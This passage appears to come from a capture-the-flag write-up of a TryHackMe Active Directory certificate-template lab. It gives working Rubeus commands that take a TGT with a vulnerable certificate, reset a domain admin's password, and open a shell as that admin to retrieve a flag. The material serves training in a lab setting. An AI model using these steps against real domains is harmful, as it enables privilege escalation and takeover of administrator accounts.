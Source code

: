 
Answer : Computer Account

### Follow the steps above and generate your very own privilege escalation certificate

No Answer.

## TASK 5 : User impersonation through a certificate

### What is the value of the flag stored on the Administrator's Desktop?

Generate the TGT :

```console
.\Rubeus.exe asktgt /user:svc.gitlab /enctype:aes256 /certificate:vulncert.pfx /password:test /outfile:svc.gitlab.kirbi /domain:lunar.eruca.com /dc:10.10.242.42
```
{: .nolineno }

Change the password of an admin user :

```console
.\Rubeus.exe changepw /ticket:svc.gitlab.kirbi /new:Hello!123 /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\da-sshepherd
```
{: .nolineno }

Then launched a command prompt as this user (password required) :

```console
runas /user:lunar.eruca.com\da-sshepherd cmd.exe
```
{: .nolineno }

Then navigated to the flag :

![Flag](/images/thm/adcertificatetemplates/adcertificatetemplates_5.png)
_Flag_
